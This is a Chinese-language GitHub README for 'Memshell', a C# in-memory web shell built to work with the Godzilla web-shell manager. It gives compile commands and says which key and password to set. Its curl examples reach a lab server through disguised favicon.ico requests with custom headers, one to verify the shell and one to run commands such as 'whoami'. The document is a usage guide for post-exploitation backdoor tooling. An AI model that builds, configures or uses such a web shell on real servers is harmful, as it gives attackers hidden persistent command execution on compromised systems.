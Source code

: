 # Memshell
## 说明
此代码仅测试过Godzilla-4.01。

代码中需要修改的点
```
input_key  为Godzilla 里面的key
pass       为Godzilla 里面的pass
nodata     为自定义返回404的代码的base64字符串
```

另外如果需要报错log，可将log部分注释去掉查看。


## 编译
**exe**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll memshell.cs
```
**dll**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll /t:library memshell.cs
```

## 使用
**验证：**
```
curl http://10.211.55.4/favicon.ico -H "Type: print"
```
![](assets/16384159078389.jpg)

**命令执行：**
```
curl http://10.211.55.4/favicon.ico -H "Type: cmd"  -d "pass=whoami"
```
![](assets/16384159397039.jpg)

**Godzilla**
添加对应HTTP头即可，
AES_RAW

![](assets/16384242085416.jpg)

AES_BASE64

![](assets/16384242790653.jpg)




